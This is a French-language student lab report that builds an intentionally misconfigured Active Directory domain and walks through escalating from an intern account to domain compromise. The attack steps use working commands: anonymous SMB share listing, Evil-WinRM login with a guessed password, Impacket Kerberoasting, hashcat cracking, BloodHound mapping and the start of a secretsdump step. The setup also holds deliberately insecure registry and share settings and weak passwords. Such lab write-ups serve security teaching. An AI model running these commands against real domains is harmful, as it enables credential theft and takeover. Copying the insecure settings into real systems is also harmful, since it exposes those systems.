# **Introduction**

Dans le cadre de projet Administration et Sécurité des systems, nous avons mis en place un environnement Active Directory (AD) représentatif d'un système d'entreprise typique, afin d'en étudier les vulnérabilités courantes et les vecteurs d'attaque exploités par des acteurs malveillants. L'objectif principal était d'illustrer, étape par étape, comment une mauvaise configuration et une gestion laxiste des comptes peuvent mener à une compromission totale du domaine.

Le scénario choisi simule l'escalade de privilèges d'un utilisateur à bas niveau (compte stagiaire) jusqu'à l'obtention des droits de l'administrateur de domaine. Pour ce faire, plusieurs techniques d'attaque ont été mises en œuvre, telles que l'accès SMB anonyme, la récupération de tickets Kerberos via Kerberoasting, l'exploitation des privilèges de réplication (DCSync), et l'utilisation de Pass-the-Hash (PTH).

Ce rapport documente l'ensemble du processus : configuration de l'environnement, déroulement de l'attaque, détection possible de l'activité malveillante, ainsi que les mesures correctives à adopter pour prévenir ce type de compromission.

# Phase de Configuration

## Déploiement du contrôleur de domaine (DC)

Nous allons commencer par promouvoir notre serveur Windows en contrôleur de domaine afin de mettre en place une architecture Active Directory.



Nous allons configurer le nom de domaine "SaZcorp.ccn", qui signifie Saad à Zakaria Entreprise.



## Configuration de partage SMB

### **Étape 1 : Activer la liste de partage SMB anonyme**

Afin d'activer le partage SMB anonyme, nous devons modifier certaines valeurs dans le registre Windows.

``` bash
# Autoriser les utilisateurs anonymes à répertorier les partages
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\LanManServer\Parameters" -Name "RestrictNullSessAccess" -Value 0 -Type DWord

# Autoriser l'accès anonyme aux canaux nommés (nécessaire pour IPC$)
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\LanManServer\Parameters" -Name "NullSessionPipes" -Value "srvsvc" -Type MultiString

# Autoriser l'accès anonyme aux actions (facultatif, mais facilite la cotation)
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\LanManServer\Parameters" -Name "NullSessionShares" -Value "Stagaires" -Type MultiString
```

Résultats de notre modification



### **Étape 2 : Créer et partager le dossier « Stagaires » avec un accès anonyme**

creation de dossier

``` bash
New-Item -Path "C:\Stagaires" -ItemType Directory
```

partage de dossier

``` bash
New-SmbShare -Name "Stagaires" -Path "C:\Stagaires" -FullAccess "Everyone" -ReadAccess "Anonymous Logon"
```

Nous pouvons constater que le dossier a été correctement partagé.



Nous allons accorder les autorisations de lecture et d'exécution à tout le monde, ainsi qu'au groupe "Anonymous Logon".

``` bash
icacls "C:\Stagaires" /grant "Everyone:(OI)(CI)(RX)"  # Read & Execute
icacls "C:\Stagaires" /grant "Anonymous Logon:(OI)(CI)(RX)"  # Explicit anonymous access
```

Résultats



## Création des comptes (internes, comptes de service, etc.)

### Creation des stagiaires

Cliquez sur "Nouveau" puis sélectionnez "Utilisateur".



remplir les informations de l'utilisateurs



mot de pass j'ai choisi "Summer2025"



Résultats



### Creation des employés

Pour la création des comptes des autres employés, nous avons choisi de procéder de manière automatisée à l'aide de PowerShell.

``` bash
# Create amira.hr
New-ADUser -SamAccountName "amira.hr" -Name "Amira HR" -AccountPassword (ConvertTo-SecureString "P@sswOrd123" -AsPlainText -Force) -ChangePasswordAtLogon $true

# Create karim.sales
New-ADUser -SamAccountName "karim.sales" -Name "Karim Sales" -AccountPassword (ConvertTo-SecureString "P@sswOrd123" -AsPlainText -Force) -ChangePasswordAtLogon $true

# Create layla.finance
New-ADUser -SamAccountName "layla.finance" -Name "Layla Finance" -AccountPassword (ConvertTo-SecureString "P@sswOrd123" -AsPlainText -Force) -ChangePasswordAtLogon $true

# Create nour.support
New-ADUser -SamAccountName "nour.support" -Name "Nour Support" -AccountPassword (ConvertTo-SecureString "P@sswOrd123" -AsPlainText -Force) -ChangePasswordAtLogon $true
```

Résultats



Afin de permettre l'accès à distance via la console, nous avons ajouté l'utilisateur Youssef au groupe "Remote Management Users".



Ici, nous allons simuler une mauvaise utilisation du service où l'utilisateur Youssef se connecte à son compte et tente de modifier son mot de passe. Au lieu de suivre une procédure de changement de mot de passe appropriée, il essaie simplement d'ajouter le caractère "@" à son ancien mot de passe "Summer@2025".
\## Creation de compte admin

Nous allons copier les mêmes propriétés que celles du compte Administrateur.



Remplir notre informations



Résultats



### Créer un compte de service

Maintenant, nous allons créer le compte de service et définir un SPN (Service Principal Name).

``` bash
New-ADUser -Name "Service DB" -SamAccountName "svc_db" -UserPrincipalName "svc_db@sazcorp.ccn" -AccountPassword (ConvertTo-SecureString "1qaz@WSX" -AsPlainText -Force) -Enabled $true
setspn -A MSSQLSvc/DC.SaZcorp.ccn:1433 svc_db
```



### Configuration des droits d'accès

La commande `dsacls "DC=SaZcorp,DC=ccn" /G "SAZCORP\svc_db:CA;Replicating Directory Changes" /G "SAZCORP\svc_db:CA;Replicating Directory Changes All"` donne au compte de service `svc_db` dans le domaine `SAZCORP` les droits de :
1. Voir et copier les modifications de l'annuaire.
2. Voir et copier *toutes* les modifications de l'annuaire (plus complet).

``` bash
dsacls "DC=SaZcorp,DC=ccn" /G "SAZCORP\svc_db:CA;Replicating Directory Changes" /G "SAZCORP\svc_db:CA;Replicating Directory Changes All"
```



# Phase d'Exploitation

## Accès SMB anonyme et extraction d'informations sensibles

smbclient est un client Samba doté d'une interface de type FTP. C'est un outil utile pour tester la connectivité à un partage Windows. Il peut être utilisé pour transférer des fichiers ou consulter les noms de partage.
-L utiliser pour voir les partages disponibles
-N pour anonymous accés

``` bash
smbclient -L //DC.SaZcorp.ccn/ -N
smbclient //DC.SaZcorp.ccn/Stagaires -N
```


Le fichier Notes.txt contient les mots de passe initiaux des stagiaires, qui sont "Summer2025". Comme mentionné précédemment, l'utilisateur Youssef a décidé de simplement ajouter un "@" à ce mot de passe, ce qui simplifie notre tâche d'accès.
\## Connexion à un compte interne via Evil-WinRM

WinRM (Windows Remote Management) est l'implémentation Microsoft du protocole WS-Management. Ce protocole standard basé sur SOAP permet l'interopérabilité entre matériels et systèmes d'exploitation de différents fournisseurs. Microsoft l'a intégré à ses systèmes d'exploitation afin de simplifier la vie des administrateurs système.
-i pour ip
-u utilisateur
-p pour mot de pass

``` bash
evil-winrm -i 10.8.0.2 -u youssef.intern -p Summer@2025
```



## Enumération des comptes avec SPN exposés (Kerberoasting)

Le Kerberoasting est une cyberattaque qui exploite le protocole d'authentification Kerberos. Les pirates volent les tickets de service Kerberos pour découvrir les mots de passe en clair des comptes de service réseau. Ils prennent ensuite le contrôle de ces comptes pour voler des données, diffuser des logiciels malveillants, etc.

La commande GetUserSPNs.py d'Impacket tente de récupérer les noms principaux de service associés aux comptes utilisateurs normaux. Elle renvoie un ticket chiffré avec le mot de passe du compte utilisateur, qui peut ensuite être attaqué hors ligne par force brute.

-dc-ip pour specifié l'IP de domain controlleur

``` bash
# Liste les SPN disponibles pour l'utilisateur youssef.intern@SaZcorp.ccn
impacket-GetUserSPNs SaZcorp.ccn/youssef.intern:Summer@2025 -dc-ip 10.8.0.2

# Requête un ticket Kerberos pour les SPN de l'utilisateur youssef.intern@SaZcorp.ccn
impacket-GetUserSPNs SaZcorp.ccn/youssef.intern:Summer@2025 -dc-ip 10.8.0.2 -request

# Tente un brute-force du hash du ticket Kerberos (TGS-REP) pour récupérer le mot de passe
hashcat -m 13100 svc_hash.txt /usr/share/wordlists/rockyou.txt --force
```



cracker le hachage que nous avons trouvé


## Vérification et exploitation des privilèges

SharpHound est le collecteur de données officiel de BloodHound. Développé en C#, il utilise les fonctions natives de l'API Windows et les fonctions d'espace de noms LDAP pour collecter les données des contrôleurs de domaine et des systèmes Windows joints à un domaine.

BloodHound utilise la théorie des graphes pour révéler les relations cachées et souvent involontaires au sein d'un environnement Active Directory.

Nous avons commencé par utiliser SharpHound pour collecter des informations sur le domaine. En exécutant SharpHound, nous obtenons un ensemble de données graphiques qui nous aident à visualiser la structure d'Active Directory et à identifier les vulnérabilités potentielles liées aux permissions et aux relations de confiance.



Lancez BloodHound et importez les données collectées par SharpHound.

``` bash
bloodhound
```


Sélectionnez les données appropriées correspondant à notre cible.



Recherchez notre service cible dans l'interface de BloodHound.



Nous pouvons alors observer que notre compte de service possède une permission DCSync sur le contrôleur de domaine.



## Récupération du hash de l'administrateur (NTLM) via `secretsdump`

Le fichier secretsdump.py d'Impacket exécute diverses techniques pour extraire les secrets de la machine distante sans exécuter d'agent. Ces techniques incluent la lecture des secrets SAM et LSA dans les registres, l'extraction des hachages NTLM, des identifiants en clair et des clés Kerberos, ainsi que l'extraction du fichier NTDS.dit. La commande suivante tente d'extraire tous les secrets de la machine cible en utilisant les techniques mentionnées précédemment.
